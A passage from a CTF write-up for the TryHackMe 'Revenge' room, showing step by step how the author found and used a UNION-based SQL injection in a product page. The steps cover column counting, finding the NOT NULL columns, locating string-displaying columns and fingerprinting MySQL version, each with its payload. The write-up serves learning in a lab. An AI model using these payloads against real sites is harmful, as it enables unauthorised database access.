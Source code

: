 After some trial and errror, **I found that it's vulnerable to UNION-Based SQL injection.**

```sql
0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,NULL-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Revenge/images/Pasted%20image%2020221227015528.png)

**When I change the fifth or sixth column to a NULL value, it returns status 500:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Revenge/images/Pasted%20image%2020221227015618.png)

So it's clear that **the fifth and sixth column doesn't accept NULL value.**

**The product table looks like this in MySQL:**
```sql
CREATE TABLE product(
header VARCHAR(255),
image VARCHAR(255),
description VARCHAR(255),
color VARCHAR(255),
unknown_column1 VARCHAR(255) NOT NULL,
unknown_column2 VARCHAR(255) NOT NULL,
price int
);
```

The `NOT NULL` means that column doesn't accept NULL value.

> Note to myself: If you found a SQL injection vulnerability but couldn't enumerate how many columns are there, **try to use different data types**, like string and integer, it may returns different result.

After we found there are 8 columns in the current table, **we need to find which column is/are accepting string data type:**

```sql
0 UNION ALL SELECT 'string1','string2','string3','string4',1,1,'string5','string6'-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Revenge/images/Pasted%20image%2020221227020435.png)

Hmm... We can use the second, thrid, and the eighth column, **as they accept string data type and displayed out to us.**

**Then, can now enumerate the database schema(structure)!**

In the `requirements.txt`, we know that **the web application is using MySQL as the DBMS(Database Management System).**

**Let's confirm that:** ([MySQL SQL Injection cheat sheet from pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet))
```sql
0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,@@version-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Revenge/images/Pasted%20image%2020221227021004.png)
